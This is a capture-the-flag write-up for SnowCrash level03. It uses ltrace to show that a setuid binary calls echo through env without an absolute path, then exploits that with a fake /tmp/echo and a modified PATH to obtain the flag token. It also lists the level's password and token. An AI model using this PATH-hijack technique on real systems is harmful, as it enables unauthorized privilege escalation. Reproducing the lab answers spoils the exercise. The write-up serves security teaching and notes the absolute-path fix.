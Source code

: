 ## level03
```
flag02@SnowCrash:~$ su level03
Password: kooda2puivaav1idi4f57q8iq
level03@SnowCrash:~$
```
```
level03@SnowCrash:~$ ls -al
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
Use `ltrace` program that simply runs the specified command until it exits.
It intercepts and records the dynamic library calls as well as the system calls executed by the program.
```
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                         = 2003
geteuid()                                                                         = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                               = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                               = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                            = 0
+++ exited (status 0) +++
level03@SnowCrash:~$
```
`system("/usr/bin/env echo Exploit me")` shows that echo command is executed without absolute path. This is a common path vulnerability.

So real `echo` can be faked with a script or symlink. For best practice is recommended to execute binaries by absolute path to avoid this type of vulnerability.  
```
level03@SnowCrash:~$ echo /bin/getflag > /tmp/echo && chmod +x /tmp/echo && PATH=/tmp:$PATH
```
```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
